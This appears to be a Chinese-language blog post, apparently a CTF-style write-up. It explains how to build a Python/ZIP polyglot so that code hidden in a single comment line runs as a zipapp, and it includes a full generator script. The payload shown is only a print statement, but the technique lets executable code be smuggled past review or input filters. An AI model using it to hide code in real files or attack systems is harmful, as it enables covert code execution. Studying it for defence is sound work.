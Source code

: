 ```yaml
---
title: "Executing arbitrary Python code from a comment"
date: 2025-08-04T10:30:00+08:00
draft: false
---
```

通过注释执行任意Python代码

### 问题描述
Q: 只能控制一行的.py代码中注释的内容(\n\r均会被替换为空字符), 如何执行任意代码?  
A: 在注释#中, 构造一个.zip 文件, python 会将该内容当成一个zip包执行, 触发任意代码执行  

### 解决方案
- 从 Python 3.5 起, 可以直接执行一个 .zip 文件
    ```python3
    python myapp.zip
    ```
    前提是ZIP 包中包含一个顶层的`__main__.py`文件, Python 会把它当作 zipapp, 自动解压并运行`__main__.py`

    > Python 会从末尾找到 ZIP 的目录结构, 而不是依赖文件头, 所以前面的“垃圾”字节会被忽略

Python 源码中的任何行, 只要以 # 开头, 解释器都会忽略后面内容, 因此可以:
- 把 ZIP 文件的数据藏在 Python 源码中的注释中（开头加 #）
- 把 ZIP 数据直接拼接在 Python 文件的后面, 只保证文件头部分是合法 Python
- ZIP 不关心前缀, Python 只要最前面是有效源码, 也不会管后面

### 难点
ZIP 文件头包含**二进制字段**，比如
- 偏移量（文件数据相对于 ZIP 开头的位置）
- 长度（文件名长度、注释长度等）
- 这些值写死在 header 里, 是十六进制整数
- 如果这些字节中出现了像 \x00、\xFF 等非 ASCII 内容, Python 就不能把它当注释

解决方法: 暴力穷举合法组合

想办法 **调整偏移值和结构位置**，使得最终写出来的 ZIP 文件
- 所有的字段值都转化为 可打印字符（ASCII 范围内）
- 所有 binary 字段看起来都像合法的注释字符串
于是用 `itertools.product(range(256), repeat=2)` 暴力尝试偏移组合，只要碰巧生成的 ZIP 包所有关键字节都在可打印范围内（ASCII 32~126），就认为成功。



下面是`generate_polygloy_zip.py`代码, 会生成一个符合要求的`polygloy.py`代码, 最后运行该代码, 可以执行Body里面的内容`BODY = b"print('FROM MAIN.py FILE!!!')#"`

```python3
# struct: 按字节结构打包数据，方便构造 ZIP 文件二进制头
# itertools: 用来暴力枚举 CRC 校验和后缀（确保安全ASCII）
# zlib: 计算 CRC32 校验和
import struct, itertools, zlib

# 文件开头代码
# encode(): Unicode 字符串 -> bytes 字节串
JUNK_HEAD = """print("Hello World!")
# This is a comment. Here's another:
# """.encode()

# 文件结尾代码
JUNK_TAIL = """
print("Thanks for playing!")"""


# zip 文件核心代码
# b: 字节串
FILENAME = b"__main__.py"
BODY = b"print('FROM MAIN.py FILE!!!')#"


# 校验 CRC 是否为 ASCII-safe
def ascii_safe(x: int) -> bool:
    return all(((x >> (8*i)) & 0x80) == 0 for i in range(4))


# 检查 32 位整数的四个字节，每个字节最高位（0x80）是否为 0，即是否为 ASCII 范围内的字节
def find_suffix(core: bytes, length: int = 4) -> tuple[bytes, int]:
    """
    - ZIP 文件 CRC32 计算结果必须 ASCII-safe（低于 0x80）
    - 这里用暴力方法，给 payload 后面加4字节后缀，找到合适的后缀让 CRC32 满足 ASCII-safe 条件
    """
    printable = range(0x20, 0x7f)
    for tail in itertools.product(printable, repeat=length):
        payload = core + bytes(tail)
        crc = zlib.crc32(payload) & 0xFFFFFFFF
        if ascii_safe(crc):
            return bytes(tail), crc

    raise RuntimeError("No ASCII-safe CRC found.")

# 计算最终 payload
SUFFIX, CRC = find_suffix(BODY)
PAYLOAD = BODY + SUFFIX
SIZE = len(PAYLOAD)

def le32(x): return struct.pack("<I", x) # 4字节小端无符号整数
def le16(x): return struct.pack("<H", x) # 2字节小端无符号整数

# ZIP 结构中各签名常量
SIG_LFH  = 0x04034B50 # 本地文件头 Local File Header
SIG_CDH  = 0x02014B50 # 中央目录头 Central Directory Header
SIG_EOCD = 0x06054B50 # 结束目录头 End of Central Directory

# zip 文件偏移量设置
delta = len(JUNK_HEAD)

# 构建 Local File Header
"""
Local File Header 是 ZIP 格式中的一部分，告诉解压程序该文件的元信息
- version needed to extract，flags，compression method 等字段置 0 表示无压缩，简单存储
- CRC32、压缩大小、解压大小都是我们计算的
- 文件名长度和文件名
"""
lfh = (
    le32(SIG_LFH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) +
    FILENAME
)

# 构建 Central Directory Header
"""
- Central Directory 是 ZIP 文件目录结构，记录每个文件信息和偏移，
- 其中重要的是 relative offset of LFH，也就是 Local File Header 在整个 ZIP 文件里的偏移，必须加上 delta
"""
cdh = (
    le32(SIG_CDH) +
    le16(0) + le16(0) + le16(0) + le16(0) + le16(0) + le16(0) +
    le32(CRC) + le32(SIZE) + le32(SIZE) +
    le16(len(FILENAME)) + le16(0) + le16(0) +
    le16(0) + le16(0) + le32(0) + le32(delta) +
    FILENAME
)

# 确保偏移量 ASCII-safe
"""
- ZIP 目录偏移需要是 ASCII 字节，否则写入 .py 文件时会出错
- 这里通过填充若干 \x00 字节，保证偏移合法
"""
cd_offset = delta + len(lfh) + len(PAYLOAD)
pad = 0
while not ascii_safe(cd_offset + pad):
    pad += 1
padding = b'\x00' * pad
cd_offset += pad

# 构建 End of Central Directory Header
"""
EOCD 记录 ZIP 中央目录大小、偏移及注释长度等信息
"""
eocd = (
    le32(SIG_EOCD) +
    le16(0) + le16(0) +
    le16(1) + le16(1) +
    le32(len(cdh)) +
    le32(cd_offset) +
    le16(len(JUNK_TAIL))
)

# 拼接完整 ZIP 内容
zip_bytes = lfh + PAYLOAD + padding + cdh + eocd
zip_bytes = bytearray(zip_bytes)
assert all(b < 0x80 for b in zip_bytes), "非 ASCII 字节存在"

# 写入 polyglot.py 文件
with open("polyglot.py", "wb") as f:
    f.write(JUNK_HEAD + zip_bytes + JUNK_TAIL.encode())

# 运行提示
print("✅ polyglot.py 生成完毕。运行它即可执行嵌入的 __main__.py 内容：")
print("  $ python3 polyglot.py")
```
